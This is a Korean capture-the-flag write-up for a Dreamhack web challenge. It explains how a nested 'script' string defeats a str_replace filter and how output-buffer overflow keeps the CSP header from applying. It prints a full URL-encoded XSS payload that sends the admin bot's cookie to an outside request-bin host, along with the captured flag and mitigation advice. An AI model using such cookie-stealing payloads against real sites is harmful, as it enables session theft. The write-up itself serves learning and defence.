




# [Dreamhack] Broken Buffalo Wings - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - Broken Buffalo Wings](https://dreamhack.io/wargame/challenges/938)

* **분야:** Web

* **목표:** PHP의 출력 버퍼링(Output Buffering) 특성과 불완전한 필터링 로직을 결합하여 CSP(Content Security Policy)를 무력화하고, 관리자 봇(Bot)의 쿠키(플래그)를 탈취.

## 2. 취약점 분석
제공된 소스코드를 분석한 결과, `index.php`의 필터링 로직 약점과 PHP 자체의 버퍼 처리 방식에서 치명적인 취약점을 확인.

### 2.1. 불완전한 필터링 (`index.php`)
```php
if (strpos($comment, 'script') !== false){
    $untrusted_comment = $_GET['comment'];

    while (strpos($untrusted_comment, 'script') !== false) {
        $alert = 'Malicious string Detected !!!!!';
        $untrusted_comment = str_replace('script', '', $untrusted_comment);
        echo $alert;
        echo $untrusted_comment;
    }
}
```
* **분석 결론:** 악성 문자열 방지를 위해 `str_replace`를 사용하여 `script`를 공백으로 지우고 있음. 하지만 `sscriptcript`와 같이 입력할 경우, 가운데 `script`가 삭제되면서 양옆의 문자열이 합쳐져 다시 `script`라는 문자열이 생성되는 취약점 발생.

### 2.2. 버퍼 플러시를 통한 CSP 우회 (`index.php`)
```php
// ... (위의 while문 필터링 로직) ...

$nonce = base64_encode(random_bytes(20));
$csp_header = "Content-Security-Policy: default-src 'self'; script-src *.bootstrapcdn.com 'nonce-" . $nonce . "'; style-src-elem *.bootstrapcdn.com;";
header($csp_header);
```
* **분석 결론:** PHP는 기본적으로 출력 버퍼(보통 4KB)가 가득 차면 클라이언트에게 강제로 응답 데이터를 전송함. 

* 입력값에 `script` 문자열을 대량으로 주입하면 `while`문 안에서 엄청난 양의 `echo`가 발생하여 버퍼가 터지게 됨. 그 결과, 하단에 선언된 `header($csp_header);`가 적용되기도 전에 응답 본문이 먼저 렌더링되어 프론트엔드의 CSP 방어막이 완전히 무력화됨.

### 2.3. 관리자 봇 로직 (`bot.py`)
```python
# 봇은 로컬 환경으로 접근하며 자기 자신의 쿠키에 플래그를 세팅
driver.add_cookie(cookie)
driver.get(f"http://127.0.0.1:8000/{parameter}")
```

## 3. 공격 수행
로컬 환경에서 Burp Suite Intruder를 활용하여 페이로드 길이를 검증한 후, 실서버에 공격 수행.

### 3.1. 페이로드 작성 및 인코딩
1. 버퍼를 가득 채우기 위해 뼈대가 되는 `s`와 `cript`를 약 50번씩 반복 결합.




2. 우회된 환경에서 실행될 XSS 페이로드를 뒤에 이어 붙임. 관리자의 쿠키(`document.cookie`)를 공격자의 Request Bin 서버로 전송하도록 `onerror` 이벤트 구성.

3. 자바스크립트 내의 `+` 기호 등이 서버에서 공백으로 인식되지 않도록 페이로드 후반부를 URL 인코딩(`%2B` 등) 처리.

```text
/?comment=sssssssssssssssssssssssssssssssssssssssssssssssssscriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcriptcript%3Cimg%20src%3Dx%20onerror%3D%22location.href%3D%27https%3A//dfkwryr.request.dreamhack.games/%3Fc%3D%27%2Bdocument.cookie%22%3E
```

### 3.2. 악성 URL 제출 (`report.php`)

1. 공격 대상 서버의 `/report.php` 페이지로 이동.

2. 입력창에 작성한 최종 인코딩 페이로드를 삽입하고 `Report`를 실행하여 봇(Admin)이 해당 링크에 강제로 접속하도록 유도.



## 4. 획득 결과
관리자 봇이 악성 스크립트를 실행함에 따라, 공격자의 웹훅(Request Bin) 대시보드로 플래그가 포함된 GET 요청 로그가 수신됨.



* **수신된 Query String:** `c=flag=DH{454e0e5672e6ae1724ad0701473768520f21b1fb3364d0ffb13dc5497027cb34}`

* **FLAG:** `DH{454e0e5672e6ae1724ad0701473768520f21b1fb3364d0ffb13dc5497027cb34}`

## 5. 대응 방안

* **안전한 치환 함수 사용:** 단순 `str_replace` 로직은 재조합 우회가 가능하므로, HTML 태그 자체의 렌더링을 막는 `htmlspecialchars` 함수를 사용하여 XSS를 근본적으로 차단해야 함.

* **HTTP 헤더 선언 위치 변경:** `header()` 함수는 어떠한 출력(`echo`, HTML 코드 등)보다도 최상단에서 먼저 실행되어야 함. CSP 헤더 설정을 로직의 최상단으로 옮겨, 버퍼 플러시 여부와 상관없이 보안 정책이 강제되도록 아키텍처를 수정.